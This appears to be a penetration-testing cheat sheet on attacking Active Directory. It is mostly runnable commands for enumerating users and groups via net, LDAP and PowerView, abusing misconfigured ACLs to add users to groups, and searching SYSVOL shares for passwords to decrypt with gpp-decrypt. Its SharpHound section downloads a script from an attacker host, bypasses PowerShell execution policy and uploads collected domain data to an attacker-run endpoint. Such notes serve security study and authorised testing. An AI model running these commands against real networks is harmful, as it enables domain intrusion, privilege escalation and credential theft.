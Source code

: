 # Active Directory

Connection: `xfreerdp /u:someuser /p:somepass /d:somedomain.com /v:$TargetIp`

## Native enumeration

```
net user /domain
net user someuser /domain
net group /domain
net group "Some Group With Whitespaces" /domain
```

Local admins (not Active Directory...):
```
net user some_hacked_user /all # for a single user 
net localgroup Administrators # to list local admins on this host
```

## Ldap enumeration

https://learn.microsoft.com/en-us/windows/win32/adschema/a-samaccounttype

```
function LDAPSearch {
    param (
        [string]$LDAPQuery
    )

    $PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
    $DistinguishedName = ([adsi]'').distinguishedName

    $DirectoryEntry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$PDC/$DistinguishedName")

    $DirectorySearcher = New-Object System.DirectoryServices.DirectorySearcher($DirectoryEntry, $LDAPQuery)

    return $DirectorySearcher.FindAll()

}
```
In a shell:
```
Import-Module .\myscript.ps1
LDAPSearch -LDAPQuery "(samAccountType=805306368)"
LDAPSearch -LDAPQuery "(objectclass=group)"
foreach ($group in $(LDAPSearch -LDAPQuery "(objectCategory=group)")) { $group.properties | select {$_.cn}, {$_.member} }
$group = LDAPSearch -LDAPQuery "(&(objectCategory=group)(cn=Development Depart*))"
$group.properties.member
```

## Powerview

Main functions: https://powersploit.readthedocs.io/en/latest/Recon/
- `Get-Domain` - returns the domain object for the current (or specified) domain
- `Get-DomainUser` - return all users or specific user objects in AD
- `Get-DomainGroup` - return all groups or specific group objects in AD
- `Get-DomainComputer` - returns all computers or specific computer objects in AD
- `Get-NetSession` - returns session information for the local (or a remote) machine
- `Find-LocalAdminAccess` - finds machines on the local domain where the current user has local administrator access

### Users and groups

```
Import-Module .\PowerView.ps1
Get-NetDomain
Get-NetUser
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn
Get-NetGroup "Some Department" | select member
```

### Operating System

```
Get-NetComputer
Get-NetComputer | select operatingsystem, dnshostname
```

### Permissions and logged users

Tools:
- PowerView
- PsLoggedOn ([Sysinternals](https://learn.microsoft.com/en-us/sysinternals/)): https://learn.microsoft.com/en-us/sysinternals/downloads/psloggedon

```
Find-LocalAdminAccess # from PowerView.ps1
Get-NetSession -ComputerName somehostname
Get-NetSession -ComputerName somehostname -Verbose
Get-Acl -Path HKLM:System\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | format-list
C:\PSTools\PsLoggedon.exe \\somehostname
```
Warning: PsLoggedon.exe needs the service `Remote Registry` on the target

### Service accounts

```
cmd > setspn -L some_service
PS > Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

### Object permissions

```
Get-ObjectAcl -Identity someuser
Convert-SidToName S-1-5-21-domainidentifiernumber-relativeidentifier
Get-ObjectAcl -Identity "Some Departm*" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
"sid1", "sid2", "sid3" | convert-sidtoname
```
Example of misconfiguration:
```
net group "Misconfigured Department" alreadyhackeduser /add /domain
Get-NetGroup "Mis*Dep*" | select member
net group "Misconfigured Department" hackeduser /del /domain # cleanup and check
Get-NetGroup "Mis*Dep*" | select member
```
Known IDs: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers \
Abuse AD ACLs: https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse

### Domain shares

Password and hash searches in network shares:
```
> Find-DomainShare
> ls \\pc.domain.com\sysvol\domain.com
> ls \\pc.domain.com\sysvol\domain.com\Policies
> cat \\pc.domain.com\sysvol\domain.com\Policies\suspicious-policy-file.xml
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork
> ls \\otherpc.domain.com\sysvol\domain.com\documentshareoverthenetwork\directory-with-secret-files
```
Example of password decryption:
```
kali$ gpp-decrypt "string-found-in-some-password-file"
```
Sysvol: https://social.technet.microsoft.com/wiki/contents/articles/24160.active-directory-back-to-basics-sysvol.aspx

## Automated AD enumeration

### SharpHound

In powershell
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$AttackerIp/SharpHound.ps1', 'SharpHound.ps1')
powershell -ep bypass
Import-Module c:\path\to\Sharphound.ps1
# Get-Help Invoke-BloodHound
Invoke-BloodHound -CollectionMethod All -OutputDirectory c:\Users\hackeduser\Desktop -OutputPrefix "some_file_prefix"
ls c:\Users\hackeduser\Desktop
powershell (New-Object System.Net.WebClient).UploadFile('http://$AttackerIp/uploadForWindows.php', 'some_file_prefix_abc123.zip')
```

### BloodHound

```
sudo apt install neo4j
sudo apt install bloodhound
sudo neo4j start
bloodhound > upload data > more info > analysis > find shortest paths to domain admins
```

Custom queries: https://neo4j.com/developer/cypher/ \
Examples:
- `MATCH (n:Computer) RETURN n`
- `MATCH (n:User) RETURN n`
- `MATCH (n:User), (m:Computer) RETURN n,m`
- `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`

Prebuilt searches:
- _Find all Domain Admins_
- _Find Workstations where Domain Users can RDP_
- _Find Servers where Domain Users can RDP_
- _Find Computers where Domain Users are Local Admin_
- _Shortest Path to Domain Admins from Owned Principals_

